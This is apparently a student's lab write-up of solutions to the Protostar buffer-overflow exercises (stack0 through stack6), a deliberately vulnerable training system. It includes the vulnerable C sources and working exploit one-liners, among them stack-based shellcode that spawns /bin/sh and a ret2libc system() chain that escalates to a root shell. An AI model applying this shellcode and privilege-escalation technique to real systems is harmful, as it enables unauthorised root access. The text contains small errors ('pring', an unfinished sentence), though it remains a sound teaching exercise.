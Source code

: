 ## Lab 8: buffer overflow and remote code execution

Solutions for protostar exercises.

### Stack 0

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

To modify the `modified` variable we need to insert 65 bytes to the input. As variables are stored near each other, that will overwrite the `modified` value.

```sh
python -c "print 'A' * 65" | /opt/protostar/bin/stack0
```

### Stack 1

To set the value to the correct value, we need to overflow the buffer at correct position with the correct value. In our case the result value should be
`0x61626364`. As the system is little endian, we will pass the value as `\x64\x63\x62\x61'. Solution:

```sh
python -c "print 'A' * 64 + '\x64\x63\x62\x61'" | xargs /opt/protostar/bin/stack1
```

### Stack 2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

We can initialize the env variable with python as `GREENIE=\`python -c "..."\``
This will simplify the process of initializing it. The logic is same as before, set the variable to the 64 bytes and the needed value. Solution:

```sh
GREENIE=`python -c "pring 'A' * 64 + '\x0a\x0d\x0a\x0d'"` /opt/protostar/bin/stack2
```

### Stack 3

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

To call the function we need the `fp` to point to the `win` function address. We can find the `win` address by running `gdb` and then `disass win` and 
looking on the address in the debugger. To overwrite the address with you the same buffer principle: 64 bytes + function address. Solution:

```sh
python -c "print 'A' * 64 + '$\x84\x04\x08'" | /opt/protostar/bin/stack3
```

### Stack 4

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

To overwrite the `%eip` register, we can analyze the C calling convention. When the function is called, first the returned address is put on the stack,
then the `%ebp` register. Afterwards, possible exception frame handler (inserted by compiler), and then local variables. We want to start executing `win`
after finishing `gets`. We can override everything up until the return address from the function, and set it to address of `win`.

`lea 0x10(%esp), %eax`

puts the address `%esp + 10` to `%eax`, while the stack pointer is on distance `0x50` from the `%ebp`. To retrieve the address of return address, we need to substract

Proposed solution:

```sh
python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | /opt/protostar/bin/stack4
```

### Stack 5

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

The idea is to override the return address to point to the beggining of the shell code on the stack, which will then run the shell. But, we cannot make it directly as the offset
changes from time to time. We can point it to `call %eax` instruction instread, which will jump to the value of `%eax`, and star executing from there. Since, `%eax` is assigned in the
`lea    0x10(%esp),%eax` during execution, it will jump to the start of the buffer. The code for running shell (making calls to Linux API) will start.

After the `leave` instruction is called the stack is unwinded back to the previous level. Then, when call instruction runs, it makes pushes to the stack and at some point overrides the bottom
values of the buffer. This can be mitigated with 'add $0x10 %esp' to reduce the stack 16 bytes further to make sure that pushed don't reach the buffer.

```sh
python -c "print '\x83\xc4\x10\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 18 + '\xbf\x83\x04\x08'" | /opt/protostar/bin/stack5
```


### Stack 6

In this exercise we have a check that prevents direct overwrite to our code. But, we can override the addresses to use `system()` function to perform a call that will overwrite file permissions for our script that will start the shell
as root. The `system()` function expects first the address of the function, the return address, the parameter of the function. We can use the system variable to point to a script which will override  permissions. The script will reset
the permissions to allow the suid permission, namely the `user` will become `root`. When the script will run afterwards, it will run the shell as root. We can find the address of env variable by using get env.

To retrieve the `system()` address we can use `print system` in gdb.

Shell script:

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

```sh
user@protostar:~$ python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\x16\xff\xff\xbf'" | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
user@protostar:~$ ./shell
root@protostar:~# whoami
root
```

